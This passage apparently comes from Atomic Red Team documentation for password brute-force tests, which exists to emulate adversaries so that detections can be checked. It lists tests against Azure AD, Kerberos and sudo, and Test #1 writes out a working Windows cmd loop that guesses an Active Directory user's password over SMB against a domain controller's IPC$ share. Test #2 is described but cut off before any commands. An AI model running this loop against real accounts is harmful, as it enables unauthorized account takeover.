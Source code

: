 - [Atomic Test #3 - Brute Force Credentials of single Azure AD user](#atomic-test-3---brute-force-credentials-of-single-azure-ad-user)

- [Atomic Test #4 - Password Brute User using Kerbrute Tool](#atomic-test-4---password-brute-user-using-kerbrute-tool)

- [Atomic Test #5 - SUDO Brute Force - Debian](#atomic-test-5---sudo-brute-force---debian)

- [Atomic Test #6 - SUDO Brute Force - Redhat](#atomic-test-6---sudo-brute-force---redhat)

- [Atomic Test #7 - SUDO Brute Force - FreeBSD](#atomic-test-7---sudo-brute-force---freebsd)


<br/>

## Atomic Test #1 - Brute Force Credentials of single Active Directory domain users via SMB
Attempts to brute force a single Active Directory account by testing connectivity to the IPC$ share on a domain controller

**Supported Platforms:** Windows


**auto_generated_guid:** 09480053-2f98-4854-be6e-71ae5f672224





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user | Account to bruteforce | string | %username%|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo Password1> passwords.txt
echo 1q2w3e4r>> passwords.txt
echo Password!>> passwords.txt
echo Spring2022>> passwords.txt
echo ChangeMe!>> passwords.txt
@FOR /F "delims=" %p in (passwords.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\#{user}" "%p" 1>NUL 2>&1 && @echo [*] #{user}:%p && @net use /delete %logonserver%\IPC$ > NUL
```






<br/>
<br/>

## Atomic Test #2 - Brute Force Credentials of single Active Directory domain user via LDAP against domain controller (NTLM or Kerberos)
Attempt to brute force Active Directory domain user on a domain controller, via LDAP, with NTLM or Kerberos
